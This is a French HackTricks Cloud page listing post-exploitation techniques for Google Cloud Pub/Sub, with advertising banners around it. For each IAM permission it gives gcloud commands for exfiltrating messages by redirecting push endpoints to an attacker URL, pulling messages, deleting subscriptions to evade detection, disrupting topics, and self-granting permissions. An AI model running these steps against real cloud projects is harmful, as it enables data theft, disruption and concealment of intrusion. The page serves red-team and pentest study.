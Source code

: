 # GCP - Post-exploitation de Pub/Sub

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge HackTricks AWS)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Pub/Sub

Pour plus d'informations sur Pub/Sub, consultez la page suivante :

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publier un message dans un sujet, utile pour **envoyer des données inattendues** et déclencher des fonctionnalités inattendues ou exploiter des vulnérabilités :
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Utile pour empêcher une souscription de recevoir des messages, peut-être pour éviter la détection.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Utile pour empêcher une souscription de recevoir des messages, peut-être pour éviter la détection.\
Il est possible de supprimer un sujet même s'il a des souscriptions attachées.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Utilisez cette autorisation pour mettre à jour certains paramètres du sujet afin de le perturber, comme `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Donnez-vous la permission d'effectuer l'une des attaques précédentes.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtenez tous les messages dans un serveur web :

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Créez un abonnement et utilisez-le pour **extraire les messages** :
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Supprimer un abonnement** pourrait être utile pour perturber un système de traitement de journaux ou quelque chose de similaire :
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Utilisez cette autorisation pour mettre à jour certains paramètres afin que les messages soient stockés dans un endroit auquel vous pouvez accéder (URL, table Big Query, Bucket) ou simplement pour le perturber.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Donnez-vous les autorisations nécessaires pour effectuer l'une des attaques précédemment commentées.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attaquez un schéma à un sujet afin que les messages ne le remplissent pas et que le sujet soit perturbé.\
S'il n'y a pas de schémas, vous devrez peut-être en créer un.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Cela peut ressembler à la suppression d'un schéma vous permettant d'envoyer des messages qui ne respectent pas le schéma. Cependant, comme le schéma sera supprimé, aucun message n'entrera réellement dans le sujet. Donc c'est **INUTILE**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Accordez-vous les autorisations nécessaires pour effectuer l'une des attaques précédemment commentées.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Cela créera un instantané de tous les messages non ACK et les remettra à l'abonnement. Pas très utile pour un attaquant mais le voici :
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge HackTricks AWS)</strong></a><strong>!</strong></summary>

D'autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

